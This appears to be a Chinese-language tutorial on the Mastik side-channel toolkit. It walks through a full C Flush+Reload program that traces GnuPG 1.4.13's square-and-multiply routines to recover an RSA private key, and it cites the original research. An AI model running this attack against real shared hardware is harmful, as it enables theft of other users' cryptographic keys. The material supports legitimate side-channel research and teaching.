 # Mastik: A Micro-Architectural Side-Channel Toolkit[^1]

## Introduction

微体系结构的侧信道攻击利用处理器内部组件之间的争用泄露进程间信息。虽然理论的攻击原理很简单，但实际实现往往很挑剔，需要了解大量很少文档的处理器特性和其他特定领域的知识。这种技术壁垒阻碍了该领域的发展和现有软件针对此类攻击的抵抗性分析。

本文档介绍 Mastik，一个用于微体系结构侧信道攻击实验的工具包。Mastik 旨在提供已公开的攻击和分析技术的实现。目前的版本还是 0.02，在 x86 体系中实现了六种基于缓存的攻击，包括：

- L1d Prime+Probe
- L1i Prime+Probe
- LLC Prime+Probe
- Flush+Reload
- Flush+Flush
- Performance Degradation Attack

除了实施攻击之外，Mastik 还提供了帮助攻击的工具，包括处理符号代码引用，如加载符号名或调试信息，以及简化侧信道攻击中常用的系统特性的功能。0.02 版本的新一个特性是 `FR-trace`，它支持通过命令行部署一个 Flush+Reload 攻击。

## Mastik Examples

演示在 GnuPG 1.4.13 上复现 Flush+Reload 攻击。

GnuPG 1.4.13 使用快速幂（平方-乘）算法执行 RSA 解密和签名的模幂运算。Yarom[^2] 证明此种实现易受到 F+R 攻击。使用 F+R 跟踪受害者使用乘法、平方和取模操作的情况，攻击者可以恢复快速幂的指数位，即受害者私钥。

F+R 的核心原理很简单，但攻击实现需要以固定的时间间隔重复探测内存。当被操作系统中断时，它还应该能够与受害者重新同步。此外，攻击者需要能够与受害者重新同步。此外，攻击者还需要将源代码位置转换为内存地址。Mastik 完成了大部分操作，它隐藏了攻击的复杂性，为用户提供一个简单的发起攻击的接口。

攻击代码如下：

```c
#define SAMPLES 100000
#define SLOT	2000
#define THRESHOLD 100

char *monitor[] = {
  "mpih-mul.c:85",  // mul_n_basecase
  "mpih-mul.c:271", // mpih_sqr_n
  "mpih-div.c:356"  // mpihelp_divrem
};
int nmonitor = sizeof(monitor)/sizeof(monitor[0]);

void usage(const char *prog) {
  fprintf(stderr, "Usage: %s <gpg-binary>\n", prog);
  exit(1);
}


int main(int ac, char **av) {
  char *binary = av[1];
  if (binary == NULL)
    usage(av[0]);

  fr_t fr = fr_prepare();
  for (int i = 0; i < nmonitor; i++) {
    // 获取要监控的地址偏移
    uint64_t offset = sym_getsymboloffset(binary, monitor[i]);
    if (offset == ~0ULL) {
      fprintf(stderr, "Cannot find %s in %s\n", monitor[i], binary);
      exit(1);
    } 
    // printf("%x\n", offset);
    fr_monitor(fr, map_offset(binary, offset));
  }

  uint16_t *res = malloc(SAMPLES * nmonitor * sizeof(uint16_t));
  for (int i = 0; i < SAMPLES * nmonitor ; i+= 4096/sizeof(uint16_t))
    res[i] = 1;
  fr_probe(fr, res);

  int l = fr_trace(fr, SAMPLES, res, SLOT, THRESHOLD, 500);
  for (int i = 0; i < l; i++) {
    for (int j = 0; j < nmonitor; j++)
      printf("%d ", res[i * nmonitor + j]);
    putchar('\n');
  }

  free(res);
  fr_release(fr);
}
```

Mastik 使用 `fr_t` 结构体封装了 F+R 攻击。

首先设置攻击要监控的内存地址，监控受害者代码中计算乘法、平方和取模运算的位置。使用 `sym_getsymboloffset` 获取要监控的源代码行在 GnuPG 二进制文件中的偏移。然后使用 `map_offset` 将这些地址映射到攻击者的地址空间，使用 `fr_monitor` 将这些地址添加到 F+R 监控的地址列表。

攻击由 `fr_trace` 执行，它等待受监控的地址开始活动，然后以固定的时间间隔收集活动记录。当检测到足够长的不活动时间，或者函数申请的存储结果的空间耗尽时，停止收集。收集过程就是测量受监控地址读取所需时间，短时间则代表以缓存，处于活动状态。

最后，程序会输出结果，攻击者可以根据结果恢复受害者执行的操作序列，并推断出指数。





[^1]:Mastik: A Micro-Architectural Side-Channel Toolkit,https://cs.adelaide.edu.au/~yval/Mastik.
[^2]: Yuval Yarom and Katrina Falkner, FLUSH+RELOAD a High Resolution,Low Noise,L3 Cache Side-Channel Attack, USENIX 2014.

